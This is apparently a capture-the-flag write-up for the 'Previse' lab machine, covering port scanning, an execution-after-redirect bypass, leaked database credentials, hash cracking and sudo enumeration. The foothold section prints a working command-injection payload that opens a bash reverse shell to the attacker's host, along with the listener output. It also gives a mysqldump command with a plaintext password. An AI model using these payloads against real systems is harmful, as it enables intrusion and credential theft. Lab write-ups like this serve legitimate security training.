# Previse

## Machine Info



## Recon

### port

- nmap

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-title: Previse Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 2.6.32 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### path

- gobuster
  - `/login.php`
  - `/logout.php`
  - `/download.php`
  - `/logs.php`
  - `/files.php`
  - `/accounts.php`

```console
└─╼$ gobuster dir -u http://10.10.11.104/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -t 64 -x php --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.104/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/login.php            (Status: 200) [Size: 2224]
/download.php         (Status: 302) [Size: 0] [--> login.php]
/logs.php             (Status: 302) [Size: 0] [--> login.php]
/files.php            (Status: 302) [Size: 4914] [--> login.php]
/config.php           (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.104/css/]
/index.php            (Status: 302) [Size: 2801] [--> login.php]
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]
/nav.php              (Status: 200) [Size: 1248]
/header.php           (Status: 200) [Size: 980]
/footer.php           (Status: 200) [Size: 217]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.104/js/]
/status.php           (Status: 302) [Size: 2966] [--> login.php]
/server-status        (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/index.php            (Status: 302) [Size: 2801] [--> login.php]
/.php                 (Status: 403) [Size: 277]
Progress: 124568 / 124570 (100.00%)
===============================================================
Finished
===============================================================
```

### web

- authenticated site, but **EAR** found (with 302 Found response status with page content)



- config BurpSuite to intercept both the request and response package => when catching the response package change `302 Found` into `200 OK` so the web page acts normally and is quite similar to authenticated page







Enumerate all pages:

- `/files.php`: able to download uploaded files



- `/status.php`: MySQL service, admin account, one uploaded file



- `/file_logs.php`, `/files.php`



- `/accounts.php`: create a new user



## Foothold

### EAR for user creation

Usage of `/accounts.php`:

```console
POST /accounts.php HTTP/1.1
Host: 10.10.11.104
Content-Length: 54
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.104
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.104/accounts.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=e00qgq35n21f6guh261aj02cce
Connection: close

username=qwe123&password=1q2w3e&confirm=1q2w3e&submit=
```



Then, login using `qwe123:1q2w3e` and download the site backup zip.

- `/login.php`: hash salt: `$1$🧂llol$`

```php
$users = $result->fetch_assoc();
                    $passHash = $users['password'];
                    if (crypt($password, '$1$🧂llol$') == $passHash) {
                        $result->free();
                        $_SESSION['user'] = $users['username'];
                        $result = $db->query($sql);
                        if (!$result) {
                            echo 'Oops! Something went wrong, try again later!';
                        }
                        $db->close();
                        header('Location: index.php');
```

- `/config.php`: db config with credential => but 3306 port is not open so we need to find a foothold first

```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

### Command Injcetion

- `/logs.php`: input can be abused to get a command injection



- payload: there must be a space between the end of command and comment char #
  - `delim=comma;ping+-c+1+10.10.14.14%23` [x]
  - `delim=comma;ping+-c+1+10.10.14.14+%23` [yes]

**POC**:

```console
└─╼$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:28:08.740342 IP 10.10.11.104 > 10.10.14.14: ICMP echo request, id 2405, seq 1, length 64
16:28:08.740362 IP 10.10.14.14 > 10.10.11.104: ICMP echo reply, id 2405, seq 1, length 64
```

**Exploit**:

```console
POST /logs.php HTTP/1.1
Host: 10.10.11.104
Content-Length: 11
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.104
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.104/file_logs.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=e00qgq35n21f6guh261aj02cce
Connection: close

delim=comma;bash+-c+"bash+-i+>%26/dev/tcp/10.10.14.14/1234+0>%261"+%23
```

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.104] 60860
bash: cannot set terminal process group (1443): Inappropriate ioctl for device
bash: no job control in this shell
www-data@previse:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@previse:/var/www/html$ uname -a
uname -a
Linux previse 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
www-data@previse:/var/www/html$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:f4:08 brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.104/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:f408/64 scope global dynamic mngtmpaddr
       valid_lft 86400sec preferred_lft 14400sec
    inet6 fe80::250:56ff:feb9:f408/64 scope link
       valid_lft forever preferred_lft forever
```

## Privilege Escalation

### www-data -> m4lwhere

Since the reverse shell has no ouput when entering `mysql -u -p` to connect it, try to dump db data and transfer it to local host to analyse.

```console
------ remote host -------
mysqldump -h localhost -u root -p'mySQL_p@ssw0rd!:)' previse > previse_dump.sql

------ local  host -------
--
-- Table structure for table `accounts`
--

DROP TABLE IF EXISTS `accounts`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `accounts` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(255) NOT NULL,
  `created_at` datetime DEFAULT CURRENT_TIMESTAMP,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=3 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `accounts`
--

LOCK TABLES `accounts` WRITE;
/*!40000 ALTER TABLE `accounts` DISABLE KEYS */;
INSERT INTO `accounts` VALUES (1,'m4lwhere','$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.','2021-05-27 18:18:36'),(2,'qwe123','$1$🧂llol$T.bQeQqFfi93qIm0g8tef1','2024-02-01 21:40:37');
/*!40000 ALTER TABLE `accounts` ENABLE KEYS */;
UNLOCK TABLES;
...
```

`$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.` seems to have a messy code. When comparing to the leaked site backup, we know this is a emoji character. Crack `$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.` using hashcat:



ssh to conecct with `m4lwhere:ilovecody112235!`

```console
└─╼$ ssh m4lwhere@$IP
m4lwhere@10.10.11.104's password:
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)
...
m4lwhere@previse:~$ id
uid=1000(m4lwhere) gid=1000(m4lwhere) groups=1000(m4lwhere)
m4lwhere@previse:~$ uname -a
Linux previse 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

### m4lwhere -> root

Enumerate `sudo` and its previleged script:

```console
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere:
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
    
m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz

m4lwhere@previse:~$ ls -l /var/log/apache2/access.log
ls: cannot access '/var/log/apache2/access.log': Permission denied
m4lwhere@previse:~$ ls -l /var/www/file_access.log
-rw-r--r-- 1 www-data www-data 515 Jun 18  2021 /var/www/file_access.log
m4lwhere@previse:/opt/scripts$ ls -dl /var/backups
drwxr-xr-x 2 root root 4096 Jul 28  2021 /var/backups
```

